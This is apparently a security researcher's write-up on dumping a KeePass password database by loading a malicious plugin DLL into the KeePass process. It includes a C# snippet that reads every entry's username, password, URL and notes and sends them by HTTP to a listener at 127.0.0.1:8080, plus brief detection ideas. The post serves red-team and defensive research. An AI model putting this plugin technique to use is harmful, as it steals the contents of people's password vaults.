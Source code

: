 # **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. Simply put, a single DLL on file disk and extract the entire DB in plaintext. While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).

![](assets/system041.png)

Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 

![](assets/system_scope.png)

With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. This felt like it would be very similar to [Chrome Extensions](Silently_Install_Chrome_Extension.md). After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".

![](assets/on_entry_copy.png)

Looking at that function you will see a "GetSafe" function being called for "Password".

![](assets/getsafe.png)

Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass as a reference and dump entries. I provide a sample code below but you will need to work on getting the proper methods/variables called. This then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```

![](assets/dbcreds.png)

### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 

![](assets/findmepassword.png)

### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
